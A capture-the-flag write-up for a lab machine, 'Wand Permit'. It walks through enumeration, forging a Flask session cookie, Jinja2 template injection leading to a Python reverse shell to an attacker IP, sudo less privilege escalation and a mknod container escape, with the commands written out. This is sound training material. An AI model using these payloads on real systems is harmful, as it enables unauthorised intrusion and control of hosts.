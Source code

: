# Wand Permit

## User flag

### Enumeration
First things first, nmap scan returns only 2 ports open: `80 http` and `5432 postgresql`.
Now, I'll go poke around the webserver, meanwhile I started a gobuster search on the url which returned:
```bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.188
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/02 14:28:12 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 302) [Size: 197] [--> login]
/logout               (Status: 302) [Size: 197] [--> login]
/login                (Status: 200) [Size: 1445]
/app                  (Status: 302) [Size: 197] [--> login]
/meetings             (Status: 302) [Size: 197] [--> login]
/forgotpassword       (Status: 200) [Size: 1245]
/verification         (Status: 302) [Size: 197] [--> login]
```
As we can see we are always redirected to login page.
The nmap script also returns the presence of `robots.txt`, which shows 1 disallowed entry: `/static/CHANGELOG.txt`:
![CHANGELOG|width=250px](./changelog.png)

We can see some usefull info:
On version 2.3.0 it has been added the manifest plugin, with a bit of research i found that this plugin saves its configuration file in /static/manifest.json
![MANIFEST](./manifest.png)
![[./manifest.png|width=250px]]

We found 2 js files:
- main-bundle.js
- dev-48644bcc829deeffe29e-bundle.js

![main-bundle|width=250px](./main-bundle.png) ![dev-bundle|with=250px](./dev-bundle.png)

In the first file I found an instresting api endpoint `/testing/dev/api/register`, but only developers can access this endpoint. So moving on the second file we can see that the function is preparing a Cookie header, and with some console.log we get the full cookie string: `Cookie: x-debug-key-v3=038663befb1ad868a62035cf5d685adb`.

### Foothold

Now sending a GET request using burp to intercept the packet and adding the just found Cookie string we can access the api endpoint which returned a registration form which we can use to create a user.
![burp](./burp.png)

We can now login with the newly created user and access the pages.
In order to schedule a meeting we need to verify our accounts so looking at verification page it tells us to upload an image with a qr code to do the verification and it gives us an example image: ![wiz](./wizard_id.png)

I just reuploaded the example png and it got me verified. We could also decode the qrcode which returned a base45 encoded string modify it and create a new qrcode to upload.

Then in order to access the meetings page we need to be a staff member. Looking at the traffic with burp we have a session cookie which presumembly is a `flask-session-cookie` because it is a python webserver.

Let's try to unsign it using `flask-unsign`:
```bash
$ flask-unsign --wordlist /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --unsign --cookie "eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOmZhbHNlLCJ2ZXJpZmllZCI6dHJ1ZX0.Y4y_5g.ahgwA_DTg0gnfCF9EVQtwnG0Fls" --no-literal-eval
[*] Session decodes to: {'email': 'dady@dady.htb', 'id': 9, 'staff': False, 'verified': True}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 1261440 attemptsEks
b'sss'
```

Now we can sign our own cookie using the found secret:
```bash
$ flask-unsign --sign --cookie "{'email': 'dady@dady.htb', 'id': 9, 'staff': True, 'verified': True}" --secret 'sss'
eyJlbWFpbCI6ImRhZHlAZGFkeS5odGIiLCJpZCI6OSwic3RhZmYiOnRydWUsInZlcmlmaWVkIjp0cnVlfQ.Y473Dw.uHR7TX6TNpYG9hwWv9DGFqw_Axk
```

We can now access the meetings page. On this page there is only a user search box which returns the output of the searched string. Therefore I tryed with a simple SSTI payload `http://10.129.229.188/meetings?email={{7*7}}` which returned 49.

### User Flag
Querying for subclasses it returns Popen so we have RCE and we can get a reverse shell:
```bash
http://10.129.255.149/meetings?email={{().__class__.__base__.__subclasses__()[397]('python+-c+\'import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.2",4444))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn("/bin/sh")\'',shell=True,stdout=-1).communicate()[0].strip()}}
```

We are now inside the machine and judging by the hostname we are inside a container  
```bash
sparkles@d08d143f2369:~/$ cat user.txt
HTB{ef6400e22a00f0f7e9da3a6a6497733}
```

## Root

Looking at intresting permissions `sudo -l` it returns `(sparkles) NOPASSWD: /usr/bin/less`.
According to GTFO bins we can exploit this to gain root access.
```bash
$ sudo less /etc/profile
```
Then by typing `!/bin/bash` we get root shell.

At this point I went down a rabbit hole enumerating all the postgresql container, but eventually I got back at this one thinking carefully.

I searched a lot and at the end I found the answer on HackTricks:
> If you have access as root inside a container and you have escaped as a non privileged user to the host, you can abuse both shells to privesc inside the host if you have the capability MKNOD inside the container (it's by default).
> With such capability the root user within the container is allowed to create block device files. Device files are special files that are used to access underlying hardware & kernel modules. For example, the /dev/sda block device file gives access to read the raw data on the systems disk.
> Docker ensures that block devices cannot be abused from within the container by setting a cgroup policy on the container that blocks read and write of block devices.
However, if a block device is created within the container it can be accessed through the /proc/PID/root/ folder by someone outside the container, the limitation being that the process must be owned by the same user outside and inside the container.

```bash
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

/bin/sh

```
![grep](./grep.png)

### Root Flag
![flag](./flag.png)
